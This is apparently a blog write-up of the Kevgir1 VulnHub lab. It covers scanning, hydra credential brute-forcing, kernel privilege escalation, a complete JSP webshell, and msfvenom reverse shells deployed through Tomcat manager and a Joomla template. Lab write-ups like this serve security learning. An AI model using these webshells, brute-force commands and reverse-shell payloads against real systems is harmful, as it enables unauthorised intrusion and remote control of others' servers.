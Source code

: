 ```yaml
---
layout: post
title: "vulhub:kevgir1"
date: 2016-05-02 14:42:52 -0500
comments: true
categories: [vulhub]
---
```



From [Vulhub](https://www.vulnhub.com/entry/kevgir-1,137/)

###Tools:

* netdiscover
* Nmap
* hydra
* msfvenom 
* joomscan


<!--more-->

Use netdiscover to detect target IP address

`netdiscover -i eth0 -r 192.168.79.0/24`

{% img  /images/blog/vulhub/kevgir1/Selection_001.png   [title manually exploit [alt text]] %}

192.168.79.174 is the target.

Then run nmap to detect opening ports and running services on the target machine.

`nmap -sV -v -O -A -T5 192.168.79.174 -p-`

{% img  /images/blog/vulhub/kevgir1/Selection_004.png   [title manually exploit [alt text]] %}


{% img  /images/blog/vulhub/kevgir1/Selection_002.png   [title manually exploit [alt text]] %}

Let attack ftp now.

`hydra -L ~/tools/SecLists/Usernames/top_shortlist.txt -P ~/tools/SecLists/Passwords/john.txt  -u  -s 25 192.168.79.174 ftp`

get the user name and password

{% img  /images/blog/vulhub/kevgir1/Selection_005.png   [title manually exploit [alt text]] %}

try ssh using same username and password

`ssh -p 1322 admin@192.168.79.174`


FTP attack DONE


Now it is privilege escalation time

`uname -a`, get the result:

{% img  /images/blog/vulhub/kevgir1/Selection_011.png   [title manually exploit [alt text]] %}

`searchsploit 14.04`
{% img  /images/blog/vulhub/kevgir1/Selection_012.png   [title manually exploit [alt text]] %}

try `/linux/local/37292.c`, copy it to /var/www/html/, use wget to download to target machine, then compile it.

`gcc 37292.c -o attack -static`, then run `attack`

{% img  /images/blog/vulhub/kevgir1/Selection_015.png   [title manually exploit [alt text]] %}

failed, now try harder.


In the searchsploit result, there is a 39166.c. Lets try this one.

{% img  /images/blog/vulhub/kevgir1/Selection_014.png   [title manually exploit [alt text]] %}

GET the ROOT!!





Now let's attack port 8080. Use nikto to scan it first.

`nikto -h 192.168.79.174:8080`

{% img  /images/blog/vulhub/kevgir1/Selection_007.png   [title manually exploit [alt text]] %}

We got the username and password for tomcat manager ... good


log into the manager page and now we can upload webshell....

{% img  /images/blog/vulhub/kevgir1/Selection_008.png   [title manually exploit [alt text]] %}


create webshell(from pentester lab, you may generate it using msfvenom)


```php index.jsp
<FORM METHOD=GET ACTION='index.jsp'>
<INPUT name='cmd' type=text>
<INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
<%
   String cmd = request.getParameter("cmd");
   String output = "";
   if(cmd != null) {
      String s = null;
      try {
         Process p = Runtime.getRuntime().exec(cmd,null,null);
         BufferedReader sI = new BufferedReader(new InputStreamReader(p.getInputStream()));
         while((s = sI.readLine()) != null) { output += s+"</br>"; }
      }  catch(IOException e) {   e.printStackTrace();   }
   }
%>
<pre><%=output %></pre>

```

now pack the webshell

```
mkdir webshell
cp index.jsp webshell

cd webshell
jar -cvf ../webshell.war *

```


now upload the webshell.war. After uploading, visit page  `192.168.79.174:8080/webshell/`.

get the shell


{% img  /images/blog/vulhub/kevgir1/Selection_009.png   [title manually exploit [alt text]] %}



Lets use msfvenom to create webshell

`msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.79.173 LPORT=4444 -f war > webshell1.war`

upload webshell1.war and setup netcat listening on port 4444. After connection is setup. do `python -c 'import pty; pty.spawn("/bin/bash")'`

get the shell

{% img  /images/blog/vulhub/kevgir1/Selection_010.png   [title manually exploit [alt text]] %}

DONE for Tomcat






Now move to port 8081

{% img  /images/blog/vulhub/kevgir1/Selection_016.png   [title manually exploit [alt text]] %}

Its Joomla!.

use tool `joomscan` to scan it

`joomscan -u http://192.168.79.174:8081`


{% img  /images/blog/vulhub/kevgir1/Selection_017.png   [title manually exploit [alt text]] %}


get the version of joomla!

Now find out the vulnerability:

{% img  /images/blog/vulhub/kevgir1/Selection_019.png   [title manually exploit [alt text]] %}

follow the instructions of this vulnerability.



login as admin:

{% img  /images/blog/vulhub/kevgir1/Selection_020.png   [title manually exploit [alt text]] %}


create php reverse shell:

`msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.79.173 LPORT=6666 -e php/base64 -f raw > shell.php`

In Extension ->Template Manager, edit existing template. Copy the content of the shell.php to it and don't forgot to add <?php and ?>. 

{% img  /images/blog/vulhub/kevgir1/Selection_021.png   [title manually exploit [alt text]] %}


set up the netcat and preview the page. get the shell

{% img  /images/blog/vulhub/kevgir1/Selection_022.png   [title manually exploit [alt text]] %}


now lets try another php webshell

[reverse shell from hacksys team](https://github.com/wg135/webshell-1/blob/master/php/reverseshell-poc.txt)

{% img  /images/blog/vulhub/kevgir1/Selection_023.png   [title manually exploit [alt text]] %}


{% img  /images/blog/vulhub/kevgir1/gameover.jpg   [title manually exploit [alt text]] %}